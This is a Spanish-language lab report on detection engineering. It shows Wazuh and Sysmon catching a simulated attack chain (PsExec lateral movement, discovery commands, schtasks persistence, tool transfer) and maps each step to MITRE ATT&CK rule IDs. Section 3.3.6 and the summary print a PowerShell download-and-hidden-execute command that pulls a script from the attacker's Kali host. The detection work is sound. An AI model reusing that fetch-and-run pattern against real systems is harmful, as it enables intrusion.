

---
#### 3.3.5 Persistencia remota con tarea programada – T1053.005 (rule.id 100150)

Finalmente, desde la misma consola de PsExec se crea una tarea programada:

`schtasks /create /sc once /tn "Fase3_T1053_Remote" ^         /tr "C:\Windows\System32\notepad.exe" /st 23:59 /f`

El evento 4688 resultante muestra:

- `win.eventdata.newProcessName`: `C:\Windows\SysWOW64\schtasks.exe`
    
- `win.eventdata.commandLine`:
    
    - `schtasks /create /sc once /tn "Fase3_T1053_Remote" /tr "C:\Windows\System32\notepad.exe" /st 23:59 /f`
        
- `subjectUserName`: `DESKTOP-IS5MQHK$`
    
- `subjectLogonId`: `0x3e7`
    

La regla local **100150** se dispara:

- `rule.id`: `100150`
    
- `rule.description`:  
    `Scheduled task creation via schtasks.exe (ATT&CK T1053.005)`
    
- `rule.mitre.id`: `["T1053.005"]`
    
- `rule.mitre.tactic`: `["Execution","Persistence","Privilege Escalation"]`
    

En los dashboards:

- En **Threat Hunting**, filtrando por `rule.id: 100150` se obtiene un **hit** coincidente con la creación de la tarea `Fase3_T1053_Remote`.




- En **MITRE ATT&CK**, filtrando por `rule.mitre.id: T1053.005`, se visualiza el mismo evento dentro de las tácticas de Execution / Persistence / Privilege Escalation.


---

#### 3.3.6 Transferencia de herramienta – T1105 (Ingress Tool Transfer)

Evidenciar cómo el atacante transfiere de forma remota un script de herramientas desde Kali hacia el equipo Windows 11 aprovechando la sesión `psexec`, y comprobar que Wazuh lo detecta como **T1105 – Ingress Tool Transfer** (y adicionalmente **T1059 – Command and Scripting Interpreter**).

---
#### 3.3.6.1 Procedimiento realizado

Desde la consola remota obtenida con `impacket-psexec` (`cmd.exe` ejecutándose como **NT AUTHORITY\SYSTEM** en `192.168.20.51`), se abre PowerShell y se descarga el payload alojado en el servidor HTTP de Kali (`192.168.40.30`):
```cmd
C:\Windows\System32> powershell

$kaliIP      = "192.168.40.30"
$payloadUrl  = "http://$kaliIP/fase3-recon-persist-remote.cmd"
$payloadPath = Join-Path $env:TEMP "fase3-recon-persist-remote.cmd"

Invoke-WebRequest -Uri $payloadUrl -OutFile $payloadPath
Get-Item $payloadPath
Start-Process -FilePath $payloadPath -WindowStyle Hidden
```

Con estos comandos el atacante:
1. Construye la URL del payload (`$payloadUrl`) apuntando al servidor web de Kali.
    
2. Descarga el script y lo guarda como  
    `C:\Windows\Temp\fase3-recon-persist-remote.cmd` (`$payloadPath`).
    
3. Verifica que el fichero existe (`Get-Item`).
    
4. Lo ejecuta de forma oculta (`Start-Process … -WindowStyle Hidden`).

Esta actividad representa claramente la técnica **T1105 – Ingress Tool Transfer**: una herramienta/script externo se transfiere hacia la máquina comprometida para ser utilizado en fases posteriores (reconocimiento y persistencia).

En la siguiente imagen vemos la salida de la consola interactiva con los comandos especificados anteriormente.



---
#### 3.3.6.2 Evidencias en Wazuh

En el módulo **Threat Hunting**, filtrando los eventos por `rule.id: 92201` y `manager.name: wazuh-server`, se obtiene un único evento asociado al momento de la descarga:

- **Índice:** `wazuh-alerts-4.x-2026.01.01`
    
- **Agente:** `DESKTOP-IS5MQHK` (IP `192.168.20.51`)
    
- **Regla disparada:** `rule.id: 92201`
    
- **Descripción de la regla:**  
    `C:\\WINDOWS\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe created a new scripting file under Windows Temp or User data folder`
    



>**NOTA**: En el laboratorio se observaron **dos rutas de detección distintas** para T1105:
>- **rule.id: 92213** – cuando el payload se descarga/crea desde la sesión interactiva del usuario killex-victim.
>- **rule.id: 92201** – cuando el payload se transfiere desde el C2 usando PsExec y PowerShell ejecutado como `NT AUTHORITY\SYSTEM`, que crea el script en `C:\Windows\Temp`.

Campos relevantes del JSON:

- `data.win.system.eventID: 11` → **Sysmon Event ID 11 (FileCreate)**
    
- `data.win.eventdata.image:`  
    `C:\\WINDOWS\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe`
    
- `data.win.eventdata.targetFilename:`  
    `C:\\Windows\\Temp\\fase3-recon-persist-remote.cmd`
    
- `data.win.eventdata.user: NT AUTHORITY\\SYSTEM`
    
- `rule.mitre.id: ["T1105","T1059"]`
    
- `rule.mitre.technique: ["Ingress Tool Transfer","Command and Scripting Interpreter"]`
    
- `rule.mitre.tactic: ["Command and Control","Execution"]`
    

En el panel **MITRE ATT&CK** de Wazuh, al filtrar por `rule.mitre.id: T1105`, este mismo evento aparece asociado a la técnica **Ingress Tool Transfer**, y simultáneamente a **T1059** debido a que el proceso responsable es `powershell.exe`.



---
#### 3.3.6.3 Análisis y resultado

- La descarga del script `fase3-recon-persist-remote.cmd` desde Kali mediante `Invoke-WebRequest` es detectada gracias a Sysmon (EID 11) y a la regla **92201** del ruleset de Wazuh.
    
- La detección se basa en un patrón genérico pero muy útil: **PowerShell creando archivos de script en directorios temporales o de datos de usuario**, un comportamiento típico de muchas cadenas de ataque reales.
    
- La alerta incluye el mapeo completo a MITRE ATT&CK (**T1105** y **T1059**), lo que facilita relacionar este evento con fases de **Command and Control** y **Execution** dentro de la kill chain.

## 4. Resumen y valoración de la Fase 3

### 4.1 Cadena APT recreada

En esta fase se construyó un escenario encadenado que simula el comportamiento de un atacante con capacidades de **lateral movement** y **persistencia**:

1. **Acceso inicial / movimiento lateral**
   - El atacante en Kali (`192.168.40.30`) dispone de credenciales de administrador local del equipo Windows 11 (`192.168.20.51`).
   - Utiliza `impacket-psexec` para abrir una consola remota (`cmd.exe`) como `NT AUTHORITY\SYSTEM` sobre el endpoint afectado.

2. **Descubrimiento (Discovery)**
   - Desde la sesión remota se ejecuta un script (`fase3-recon-persist-remote.cmd`) que lanza comandos nativos:
     - `systeminfo`, `whoami /all`, `ipconfig /all` → **T1082 – System Information Discovery** (regla local `100130`).
     - `arp -a`, `netstat -ano`, `route print` → **T1016 – System Network Configuration Discovery** (regla local `100140`).
     - `net user` → **T1087 – Account Discovery** (regla oficial `92031`).

3. **Persistencia**
   - El mismo script crea una tarea programada:
     - `schtasks /create /sc once /tn "Fase3_T1053_Remote" /tr "C:\Windows\System32\notepad.exe" /st 23:59 /f`
   - La detección se realiza mediante la regla local:
     - `rule.id: 100150` – **T1053.005 – Scheduled Task/Job**.

4. **Transferencia de herramienta (Ingress Tool Transfer)**
   - Desde la consola remota del `psexec` se abre PowerShell y se descarga el payload desde el servidor HTTP de Kali:
     - `Invoke-WebRequest -Uri "http://192.168.40.30/fase3-recon-persist-remote.cmd" -OutFile C:\Windows\Temp\fase3-recon-persist-remote.cmd`
   - La creación del script en `%TEMP%` genera un evento **Sysmon Event ID 11** que Wazuh mapea como:
     - `rule.id: 92201` (en el escenario remoto actual).
     - En pruebas previas locales se observó el mismo comportamiento con `rule.id: 92213`.
   - La alerta resultante queda asociada simultáneamente a:
     - **T1105 – Ingress Tool Transfer**.
     - **T1059 – Command and Scripting Interpreter (PowerShell)**.

### 4.2 Técnicas MITRE cubiertas en el escenario encadenado

| Técnica   | Táctica                             | Evidencia principal en Wazuh                           | rule.id implicados                        |
|----------|--------------------------------------|--------------------------------------------------------|-------------------------------------------|
| T1082    | Discovery – System Information       | `systeminfo`, `whoami /all`, `ipconfig /all`           | 100130 (+ 67027 como regla base)         |
| T1016    | Discovery – Network Configuration    | `arp -a`, `netstat -ano`, `route print`, `ipconfig /all` | 100140 (+ 67027)                          |
| T1087    | Discovery – Account Discovery        | `net user` / `net1.exe`                                | 92031 (ruleset oficial)                  |
| T1053.005| Persistence / Execution / Priv. Esc. | Creación de la tarea `Fase3_T1053_Remote` con `schtasks.exe` | 100150 (+ 67027)                          |
| T1105    | Command and Control – Ingress Tool   | FileCreate en `%TEMP%\fase3-recon-persist-remote.cmd`  | 92201 / 92213 (según la prueba)          |
| T1059    | Execution – Command & Script Interp. | PowerShell descargando y ejecutando el script remoto   | 92027 + 92201 (Sysmon / T1105+T1059)     |

Este escenario demuestra que un único flujo de ataque permite activar **múltiples técnicas MITRE** distribuidas en varias tácticas (Discovery, Persistence, Command and Control, Execution), lo que refuerza la utilidad del laboratorio como entorno de validación de detecciones encadenadas.

### 4.3 Aprendizajes clave

- Las **reglas locales** diseñadas en las fases anteriores (100130, 100140, 100150, 100141) se comportan correctamente incluso cuando los comandos se lanzan desde un contexto de **servicio remoto (`psexec`)** y no desde la sesión interactiva del usuario.
- La combinación de:
  - **Windows Security 4688 (WEF)**,  
  - **Sysmon (EID 1 y 11)** y  
  - reglas oficiales de Wazuh (`92027`, `92031`, `92201/92213`)  
  permite reconstruir toda la cadena de ataque.
- El cambio de `rule.id` de `92213` a `92201` observado entre Fase 2 (pruebas locales) y Fase 3 (descarga desde consola remota) muestra que:
  - La lógica de **T1105** se mantiene.
  - Pero el **ruleset puede actualizarse** entre versiones, por lo que es importante documentar la detección en términos de MITRE (T1105 + T1059) y no solo por ID numérico.

En conjunto, la Fase 3 valida que el SOC puede **seguir el rastro de un APT sencillo de extremo a extremo**, desde el movimiento lateral hasta la instalación de persistencia y la transferencia de herramientas.

## 5) Conclusiones de la Fase 3

En la Fase 3 se ha pasado de pruebas aisladas por técnica (Fase 2) a un escenario más cercano a un
ataque APT real, encadenando ejecución remota, reconocimiento del sistema, descubrimiento de cuentas,
análisis de configuración de red, persistencia y transferencia de herramientas/payloads.

A partir de las evidencias recogidas en Wazuh (búsquedas por `rule.id` y por técnicas ATT&CK en el
tablero MITRE), se pueden destacar las siguientes conclusiones:

1. **Cobertura efectiva de las técnicas de descubrimiento.**  
   Las reglas locales **100130 (T1082)**, **100140 (T1016)** y **100141 (T1087)** han demostrado ser
   efectivas tanto cuando los comandos se ejecutan de forma interactiva en la víctima como cuando se
   lanzan de manera remota a través de PsExec (`systeminfo`, `whoami /all`, `ipconfig /all`, `arp -a`,
   `netstat -ano`, `route print`, `net user`).  
   Esto confirma que basar las detecciones en el evento **Security 4688** es robusto frente al canal
   usado por el atacante (local o remoto).

2. **Persistencia mediante tareas programadas bien cubierta (T1053.005).**  
   La regla local **100150** detecta de forma consistente la creación de tareas programadas con
   `schtasks.exe /create`, tanto cuando se invocan desde una consola local como cuando el comando se
   ejecuta sobre una sesión remota obtenida con PsExec. Esta regla se alinea con las tácticas de
   **Execution**, **Persistence** y **Privilege Escalation** de ATT&CK.

3. **Ingress Tool Transfer (T1105) visible en distintas variantes.**  
   Se ha verificado que el ruleset oficial de Wazuh/Sysmon detecta la creación de ficheros en
   directorios temporales a partir de procesos como PowerShell, disparando reglas como **92213** y
   **92201**.  
   En los distintos escenarios la actividad queda mapeada a **T1105** (descarga de herramientas/payloads)
   y, en el caso de 92201, también a **T1059** por el uso de PowerShell como intérprete de comandos.

4. **El encadenamiento de técnicas se refleja correctamente en el panel MITRE.**  
   Los escenarios de Fase 3 (reconocimiento + persistencia local y remota) aparecen proyectados en el
   panel ATT&CK de Wazuh, mostrando simultáneamente técnicas de **Execution**, **Persistence**,
   **Discovery** y **Command and Control**.  
   Esto valida que la solución no sólo detecta eventos aislados, sino que es capaz de mostrar la
   **historia completa del ataque** desde la perspectiva del SOC.

5. **Equilibrio razonable entre detección y ruido.**  
   Tras ejecutar los escenarios y revisar las reglas por `rule.id` y por técnica, no se han observado
   picos anómalos de ruido ni falsos positivos significativos derivados de las reglas locales creadas.
   El impacto en el volumen de alertas es asumible para un entorno de laboratorio y se considera un
   buen punto de partida para un entorno productivo con más afinado de umbrales.

En conjunto, la Fase 3 demuestra que, partiendo de una arquitectura de red segmentada (Kali en OPT,
Windows 11 en OPT1 y Wazuh en OPT2) y combinando reglas oficiales de Wazuh con reglas personalizadas,
es posible **detectar y correlacionar** un escenario APT encadenado que utiliza herramientas y comandos
nativos del sistema operativo.

## 6) Resumen global de cobertura ATT&CK con Wazuh

La siguiente tabla resume las técnicas ATT&CK cubiertas por la plataforma, indicando
las reglas de Wazuh implicadas y en qué fase/escenario se validaron:

| Técnica (ID) | Nombre ATT&CK                                   | Táctica(s) principal(es)                     | Fuente de evento / canal              | Reglas Wazuh implicadas                    | Fase / escenario donde se validó                                          | Estado |
|-------------|--------------------------------------------------|----------------------------------------------|---------------------------------------|--------------------------------------------|---------------------------------------------------------------------------|--------|
| T1059.001   | Command and Scripting Interpreter: PowerShell    | Execution                                    | Sysmon EID 1 (Process Create)        | **92027** (oficial, Sysmon)                | Fase 2 – Pruebas de ejecución PowerShell                               | OK     |
|             |                                                  |                                              | Security EID 4688 (Process Create)   | **100100** (local – ejecución PowerShell)  | Fase 2 – Escenario de PowerShell controlado                            | OK     |
| T1543.003   | Create or Modify System Process: Windows Service | Persistence, Privilege Escalation            | Security (7045 / 4697 – servicios)   | **100110 / 100111** (local – creación/ejecución de servicio sospechoso) | Fase 2 – Persistencia vía servicio de Windows                          | OK     |
| T1547.001   | Boot or Logon Autostart Execution: Registry Run  | Persistence                                   | Sysmon (Event de registro)           | **100120 / 100121** (local – claves Run/RunOnce)                         | Fase 2 – Persistencia mediante claves Run / RunOnce                    | OK     |
| T1082      | System Information Discovery                     | Discovery                                     | Security EID 4688                    | **100130** (local – systeminfo / whoami / ipconfig)                      | Fase 2 – Plan de pruebas; Fase 3 – Escenario 1 y 2 (recon local y remoto) | OK     |
| T1016      | System Network Configuration Discovery           | Discovery                                     | Security EID 4688                    | **100140** (local – ipconfig /all, arp -a, netstat -ano, route print)    | Fase 2 – Plan de pruebas; Fase 3 – Escenario 1 y 2 (recon de red)      | OK     |
| T1087      | Account Discovery                                | Discovery                                     | Sysmon EID 1                         | **92031** (oficial – “Discovery activity executed” con `net user`)       | Fase 2 – Uso de `net user` directo en la víctima                       | OK     |
|             |                                                  |                                              | Security EID 4688                    | **100141** (local – `net user` en línea de comandos)                     | Fase 3 – Escenario 2 (reconocimiento remoto vía PsExec + cmd.exe)      | OK     |
| T1053.005   | Scheduled Task/Job: Scheduled Task               | Execution, Persistence, Privilege Escalation | Security EID 4688                    | **100150** (local – schtasks.exe con `/create`)                          | Fase 3 – Escenario 1 y 2 (tarea programada local y remota)             | OK     |
| T1105       | Ingress Tool Transfer                            | Command and Control                           | Sysmon EID 11 (FileCreate)          | **92213** (oficial – fichero ejecutable/sospechoso en carpetas temporales) | Fase 2 – Descarga de payload a `%TEMP%` desde PowerShell               | OK     |
|             |                                                  | + Execution (por T1059)                       | Sysmon EID 11 (FileCreate)          | **92201** (oficial – PowerShell crea script en Temp; mapeado a T1105+T1059) | Fase 3 – Escenario 2: descarga remota `fase3-recon-persist-remote.cmd` desde C2 | OK     |
| T1059       | Command and Scripting Interpreter (genérico)     | Execution                                    | Sysmon EID 11                        | **92201** (oficial – mismo evento de creación del script)               | Fase 3 – Escenario 2 (PowerShell como intérprete de comandos remoto)   | OK     |


